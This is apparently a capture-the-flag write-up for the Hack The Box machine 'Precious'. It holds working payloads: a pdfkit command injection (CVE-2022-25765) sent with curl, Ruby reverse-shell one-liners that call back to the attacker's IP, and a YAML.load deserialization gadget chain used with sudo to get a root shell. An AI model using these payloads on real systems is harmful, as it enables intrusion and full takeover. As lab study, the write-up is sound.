

## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```


```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```

Let's take a look at the website.


It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

`http://10.10.XX.XX:80/?name=%20``whoami`` `

We URL Encode it before sending it
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```

And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```

Time to craft ourselves a reverse shell ! 
Let's setup a listenner :
```bash
pwncat-cs -p 1234
```

```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```

We replace whoami by this new payload
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```


There is a .bundle in the home directory of our user ruby. Let's investigate :


Clear text password for the user henry ! And with this we got our first flag :


## Privilege escalation

```bash
sudo -l

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

So let's see what does the script do

```ruby
cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Seems we have a control on dependencies.yml that is load via YAML.load(). We find a [blogpost](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) about ruby deserialization via YAML.

Let's take and modify a bit the payload :

```yaml dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))' #modify the command here
         method_id: :resolve
```

Prepare your listenner then use our sudo privilege to run the ruby script in the folder where our payload is.

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
You should catch a root shell and find the root flag !


